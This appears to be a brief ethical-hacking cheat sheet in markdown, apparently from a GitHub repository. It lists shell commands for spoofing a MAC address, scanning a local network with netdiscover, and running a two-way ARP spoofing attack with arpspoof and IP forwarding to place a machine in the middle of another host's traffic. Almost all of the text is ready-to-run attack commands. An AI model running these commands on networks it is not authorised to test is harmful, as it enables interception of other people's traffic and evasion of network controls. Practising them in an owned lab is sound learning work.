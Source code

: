 # Hetical hacking
## Change mac address 
```
ip link show
sudo ip link set dev <your device here> down
sudo ip link set dev <your device here> address <your new mac address>
sudo ip link set dev <your device here> up
```
## Netdiscover
Scan all devices connected to a network
```
sudo netdiscover -r ip.start/end
```
## ARP SPOOFING
```
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7

echo 1 > /proc/sys/net/ipv4/ip_forward
```